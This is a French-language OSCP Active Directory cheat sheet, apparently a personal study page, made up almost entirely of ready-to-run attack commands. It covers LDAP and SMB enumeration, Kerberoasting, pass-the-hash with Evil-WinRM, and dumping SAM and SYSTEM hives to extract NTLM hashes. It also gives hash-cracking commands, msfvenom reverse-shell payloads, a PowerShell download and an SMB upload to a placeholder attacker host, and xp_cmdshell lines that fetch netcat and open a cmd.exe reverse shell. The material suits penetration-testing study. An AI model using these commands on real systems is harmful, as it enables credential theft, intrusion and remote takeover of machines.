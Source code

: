 # 🏅 OSCP Active Directory Cheat Sheet

{% hint style="success" %}
Ce document regroupe tout ce que j’ai appris au travers des box et des cours de préparation aux techniques d’exploitation Active Directory. Il reflète mon expérience personnelle et n’engage que moi. Je ne couvre pas ici les techniques les plus avancées, mais vous pouvez vous tourner vers d’autres ressources comme [The Hacker Recipes](https://www.thehacker.recipes/) pour approfondir le sujet.
{% endhint %}

***

## **🛡️ Active Directory Cheat Sheet**

### 📌 Reconnaissance & Énumération

#### 🔍 **LDAP Enumeration**

*   **Énumération LDAP anonyme**

    ```bash
    ldapsearch -v -x -b "DC=<DOMAIN>,DC=com" -H "ldap://<IP>" "(objectclass=*)"
    ```
*   **Énumération LDAP authentifiée (LAPS Password)**

    ```bash
    ldapsearch -x -H "ldap://<IP>" -D "<DOMAIN>\<USER>" -w "<PASSWORD>" -b "DC=<DOMAIN>,DC=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    ```
*   **Énumération avec Windapsearch**

    ```bash
    ./windapsearch.py --dc-ip <IP> -u "" -U
    ```
*   **Extraction des utilisateurs via NetExec**

    ```bash
    nxc ldap "<DC>" -d "<DOMAIN>" -u "<USER>" -p "<PASSWORD>" -M get-desc-users
    ```

#### 📂 **SMB Enumeration**

*   **Lister les partages SMB accessibles**

    ```bash
    crackmapexec smb <IP> --shares -u <USER> -p <PASSWORD>
    ```
*   **Brute force RID pour extraire les utilisateurs**

    ```bash
    nxc smb <IP> -u '' -p '' --rid-brute
    ```

#### 🎭 **SPN & Kerberoasting**

*   **Extraction des SPN**

    ```bash
    impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASSWORD> -request
    ```
*   **Lister les SPN d'un compte spécifique**

    ```powershell
    Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
    ```

#### 💾 **MSSQL Enumeration**

*   **Connexion MSSQL avec authentification Windows**

    ```bash
    impacket-mssqlclient '<DOMAIN>/<USER>':'<PASSWORD>'@<IP> -dc-ip <IP> -windows-auth
    ```

***

### 🔑 Accès Initial (Foothold)

*   **RCE via PSExec (Administrator Privileges)**

    ```bash
    python psexec.py <DOMAIN>/<ADMIN>:<PASSWORD>@<IP>
    ```
*   **Pass-the-Hash via Evil-WinRM**

    ```bash
    evil-winrm -i <IP> -u <USER> -H "<NTLM_HASH>"
    ```
*   **Connexion MSSQL avec Silver Ticket**

    ```bash
    impacket-mssqlclient -k <MSSQL_HOST>
    ```

***

### 🏆 Escalade de Privilèges (PrivEsc)

*   **Dump de la base SAM**

    ```powershell
    reg save hklm\sam C:\Temp\sam
    ```
*   **Dump de la base SYSTEM**

    ```powershell
    reg save hklm\system C:\Temp\system
    ```
*   **Extraction des hashes NTLM**

    ```bash
    impacket-secretsdump -system system -sam sam local
    ```

```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### 🎯 **Droits Windows (Privilege Escalation)**

* **SeBackupPrivilege** → Lire des fichiers normalement inaccessibles
* **SeRestorePrivilege** → Écraser des fichiers protégés
* **SeImpersonatePrivilege** → Exploitable avec JuicyPotato pour devenir SYSTEM
* **SeLoadDriverPrivilege** → Charger des drivers malveillants

***

### 💥 Cracking des Hashes

*   **NTLM**

    ```bash
    hashcat -m 1000 -a 3 hash.txt
    ```
*   **NetNTLMv1**

    ```bash
    hashcat -m 5500 -a 3 hash.txt
    ```
*   **NetNTLMv2**

    ```bash
    john --format=netntlmv2 hash.txt
    ```
*   **SPN Hash (Kerberoasting)**

    ```bash
    hashcat -m 13100 -a 0 spn.txt rockyou.txt
    ```

***

### 🚀 Payloads & Reverse Shells

*   **Windows Meterpreter**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **Windows Shell Staged**

    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **PowerShell Reverse Shell**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ATTACKER_IP> LPORT=<PORT> -f psh-cmd
    ```

***

### 🔄 Transfert de Fichiers

*   **Serveur HTTP Python**

    ```bash
    python3 -m http.server 80
    ```
*   **Télécharger un fichier via PowerShell**

    ```powershell
    powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>/file.exe' -OutFile 'C:\Users\Public\file.exe'"
    ```
*   **Exfiltration via SMB**

    ```bash
    smbclient //<ATTACKER_IP>/SHARE -U "USER" -c "put file.exe"
    ```

***

### 🏴‍☠️ Post-Exploitation

*   **Changement du mot de passe via RPC**

    ```bash
    setuserinfo <USER> 23 'NewPassword123!'
    ```
*   **Utilisation d’un ticket Kerberos pour MSSQL**

    ```bash
    export KRB5CCNAME=$PWD/Administrator.ccache
    ```
*   **Téléchargement de Netcat via MSSQL**

    ```bash
    xp_cmdshell "curl http://<ATTACKER_IP>/nc.exe -o c:\temp\nc.exe"
    ```
*   **Reverse Shell via MSSQL**

    ```bash
    xp_cmdshell "c:\temp\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe"
    ```

